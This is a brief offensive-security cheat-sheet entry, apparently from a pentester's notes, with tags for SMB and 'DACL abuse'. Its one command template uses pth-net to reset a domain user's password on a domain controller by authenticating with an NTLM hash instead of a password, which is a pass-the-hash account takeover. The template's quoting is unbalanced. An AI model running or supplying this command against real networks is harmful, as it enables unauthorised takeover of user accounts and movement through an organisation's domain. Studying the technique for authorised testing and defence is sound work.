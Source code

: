 # pth-net

## change user password (pth)
#plateform/linux #target/remote  #port/445 #protocol/smb #cat/ATTACK/DACL-ABUSE 
```
pth-net rpc password '<target_user>' '<new_password|jubeaz>' -U <domain_netbios>/<user>%<lm_hash|ffffffffffffffffffffffffffffffff>:<nt_hash>' -S "<dc>"
```